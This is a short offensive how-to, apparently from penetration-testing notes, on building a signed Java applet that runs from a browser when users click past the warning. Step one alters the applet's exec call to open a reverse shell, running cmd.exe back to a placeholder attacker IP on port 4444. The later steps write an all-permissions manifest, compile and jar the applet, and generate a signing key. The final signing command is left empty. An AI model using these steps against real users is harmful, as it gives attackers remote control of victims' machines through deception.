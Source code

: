 #Java Applet run from browser
Will give warning message but users may just click yes

1. Modify the `Java.java` applet as required, in this case I change `f = Runtime.getRuntime().exec("cmd.exe /c " + expath);` to `f = Runtime.getRuntime().exec("cmd.exe /c " + expath + "YO.UR.IP.ADR 4444 -e cmd.exe");`

2. Create a manifest file using `echo "Permissions: all-permisions" > /root/manifest.txt`

3. Compile the code using `javac Java.java` then `jar cvfm Java.jar /root/manifest.txt Java.class`

4. Then generate a key `keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123` answering the questions as you see fit

5. And sign the applet ``
